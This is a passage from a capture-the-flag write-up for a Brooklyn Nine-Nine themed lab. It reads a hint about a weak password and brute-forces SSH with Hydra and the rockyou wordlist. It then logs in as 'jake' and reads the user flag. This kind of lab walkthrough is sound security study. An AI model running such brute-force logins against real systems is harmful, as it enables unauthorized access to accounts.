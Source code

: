 and we have a file :

```
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

so we have a name Jake and we know he had a weak password, maybe he didn't change that, we can try on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md).
## SSH Bruteforce Exploit

### Hydra

We can [Bruteforcing](../../3%20-%20Tags/Hacking%20Concepts/Bruteforcing.md) with [Hydra](../../3%20-%20Tags/Hacking%20Tools/Hydra.md)

```Kali
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.32.25 ssh

[22][ssh] host: 10.10.32.25   login: jake   password: 987654321
```

### First Access

```
└─$ ssh jake@10.10.32.25            
The authenticity of host '10.10.32.25 (10.10.32.25)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.32.25' (ED25519) to the list of known hosts.

jake@10.10.32.25's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 

```

now we can find the first [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md)  :

```
└─$ cd home
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee

```
